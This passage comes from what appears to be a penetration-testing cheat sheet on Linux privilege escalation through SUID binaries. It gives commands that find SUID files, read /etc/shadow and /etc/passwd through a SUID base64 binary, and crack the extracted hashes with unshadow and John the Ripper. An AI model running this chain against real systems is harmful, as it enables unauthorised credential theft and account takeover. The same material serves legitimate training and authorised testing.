 
## <mark style="color:purple;">Abusing SUID/SGID permissions on reading binaries</mark>

* Verify executables with special permisions

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>find / -type f -perm -04000 -ls 2>/dev/null | grep bin
</strong>#Example results
<strong>1111  1  -rwsr-xr-x  1  root  root  1111  Feb  10  2030  /usr/bin/base64
</strong></code></pre>

{% hint style="info" %}
`base64` is used as example, can be any other executable with data visualization properties such as `nano`,`cat`, `vim`, `nvim`, etc...
{% endhint %}

***

* Check binary SUID abuse on _GTFOBins_

{% code overflow="wrap" lineNumbers="true" %}
```bash
LFILE=file_to_read
base64 "$LFILE" | base64 --decode
```
{% endcode %}

***

* Abuse privileges to read important files and copy its content locally

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>base64 /etc/shadow | base64 --decode #Display content of shadow    
</strong>base64 /etc/passwd | base64 --decode #Display content of passwd
touch shadow.txt #Create on host machine and copy content of shadow
touch passwd.txt #Create on host machine and copy content of passwd
</code></pre>

***

* Use john to make crackable file an crack passwords&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```sh
unshadow passwd.txt shadow.txt > crack.txt
john -w=/usr/share/wordlists/rockyou.txt crack.txt
#If possible to crack this will display the password of users
```
{% endcode %}

***



## <mark style="color:purple;">Abusing SUID/SGID permissions on writing binaries</mark>
